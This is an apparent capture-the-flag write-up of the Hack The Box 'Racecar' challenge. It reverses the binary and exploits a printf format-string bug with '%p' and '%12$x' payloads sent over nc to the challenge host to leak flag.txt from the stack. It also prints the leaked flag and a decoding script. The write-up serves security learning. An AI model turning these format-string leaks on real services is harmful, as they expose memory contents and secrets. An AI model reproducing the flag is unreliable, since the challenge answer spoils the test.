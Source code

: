 ```yaml
---
title: "HTB - Racecar [ PWN ]"
date: 2022-02-27T18:39:55-05:00
draft: false
---
```


## Racecar

Before starting the vulnerability search, we must first perform a basic analysis.

![image](https://user-images.githubusercontent.com/88755387/142025252-e61b2429-06f9-4464-94d7-e3cc8e7507e4.png)

If we look at the strings of the executable and filter by the word 'flag' we realize that there is a file called flag.txt which we assume is hidden.

![image](https://user-images.githubusercontent.com/88755387/142025391-0d68b387-fb14-46ab-948d-345e326b67a9.png)

We are going to debug the executable with the IDA tool.

![image](https://user-images.githubusercontent.com/88755387/142025485-6ad74b6f-29cc-400c-83aa-9f21c3f19d26.png)

Inside the `car_menu` function we have a file called `flag.txt` which will only be opened if the program flow enters `car_menu:loc_FC`. We know this because at that function a call is made to the `_printf` function after 'winning the race'.

Let's see what address the `_printf` function has:

![image](https://user-images.githubusercontent.com/88755387/142025864-4fa8907e-6335-42cc-a400-9be503ae2e00.png)

Before we continue we are going to create a file called 'flag.txt' as the one the program is looking for to read in the same directory where we are going to run the binary.

``` 
echo 'AAAA' > flag.txt
```

We run the binary in GDB and put a breakpoint in the vulnerable function `_printf`:

![image](https://user-images.githubusercontent.com/88755387/142026049-dfe69c2f-3ba4-48e9-8677-7f32f91c4da7.png)

Now we run the binary and enter 40x `%p` to display more information: 

```
gdb-peda$ run
Name: sth
Nickname: sth
> 2
> 1
> 2
> %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
```

![image](https://user-images.githubusercontent.com/88755387/142026262-33deb92a-7566-47e2-a058-e2fd67259d86.png)

At the 12th position, there is a beginning of `flag.txt` — `AAAA` string which was input before. It seems like the flag is stored on the stack.

Now we have to leak the flag from the remote service. We use [direct parameter access input format string](https://kevinalmansa.github.io/application%20security/Format-Strings/) `%12$x` to leak `flag.txt` from a remote system.

```
nc 104.248.169.123 31242
[ ... ]
> %12$x
```

![image](https://user-images.githubusercontent.com/88755387/142026727-f38db53b-bb06-40c0-8c19-4a4bdb7685b0.png)

If we convert them to ASCII we will find the beginning of the flag:

```
7b425448 -> {BTH
4854427b -> HTB{
```

The next step is reversing the flag. As we know that the flag is between two '{}' we will look for the value of the closing brace in hexadecimal.

```
{ -> 7b
} -> 7d
```

Now that we know its value we will reverse the bytes that are inside the braces.

```
%x%x%x%x%x%x%x%x%x%x%x---FLAG: %p%p%p%p%p%p%p%p%p%p%p ---
```

![image](https://user-images.githubusercontent.com/88755387/142026897-d3eb1187-6f89-4b88-9aeb-ad6c30199a56.png)

The last thing left is to create a script to view the flag in ASCII:

```python
from pwn import *

flag = '0x7b4254480x5f7968770x5f6431640x34735f310x745f33760x665f33680x5f67346c0x745f6e300x355f33680x6b6334740x7d213f'
decoded_flag = []

for element in flag.split('0x')[1:]:
 decoded_flag.append(p32(int('0x' + element,16)))
 
print (b''.join(decoded_flag))
```

![image](https://user-images.githubusercontent.com/88755387/142027222-c9604f62-37df-4a97-996a-0b5eeb5d6241.png)

I hope you enjoyed it! :D